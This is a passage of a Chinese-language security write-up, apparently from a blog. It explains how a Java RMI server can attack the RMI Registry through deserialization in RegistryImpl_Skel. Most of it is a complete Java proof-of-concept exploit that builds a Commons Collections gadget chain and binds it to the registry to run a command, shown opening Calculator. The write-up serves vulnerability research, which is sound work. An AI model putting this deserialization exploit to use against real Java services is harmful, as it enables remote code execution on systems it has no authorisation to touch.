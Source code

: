 

![image-20201026154152631](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201026154152631.png)

Server攻击Registry逻辑在这里，其中var1,var2为bind的参数，会序列化之后发送给registry，由RegistryImpl_Skel dispatch函数处理

![image-20201026154309224](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201026154309224.png)

**RegistryImpl_Skel**

Skel类功能为：registry处理client/server发过来的请求，逻辑在dispatch内，其中case值对应Stub中不同的code

![image-20201026154716497](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201026154716497.png)

（readObject() 方法用于反序列化），Server攻击Registry，反序列化触发点在RegistryImpl_Skel$dispatch

利用：

修改服务端代码

```
public class HelloServer {
    public static void main(String[] args) throws Exception {
        try {

            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open /Applications/Calculator.app"}),
            };
            Transformer transformer = new ChainedTransformer(transformers);
            Map innerMap = new HashMap();
            Map ouputMap = LazyMap.decorate(innerMap, transformer);

            TiedMapEntry tiedMapEntry = new TiedMapEntry(ouputMap, "pwn");
            BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);

            Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
            field.setAccessible(true);
            field.set(badAttributeValueExpException, tiedMapEntry);

            Map tmpMap = new HashMap();
            tmpMap.put("pwn", badAttributeValueExpException);
            Constructor<?> ctor = null;
            ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
            ctor.setAccessible(true);
            InvocationHandler invocationHandler = (InvocationHandler) ctor.newInstance(Override.class, tmpMap);
            Remote remote = Remote.class.cast(Proxy.newProxyInstance(HelloServer.class.getClassLoader(), new Class[]{Remote.class}, invocationHandler));
            Registry registry = LocateRegistry.getRegistry(1099);
            registry.bind("hello1", remote);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
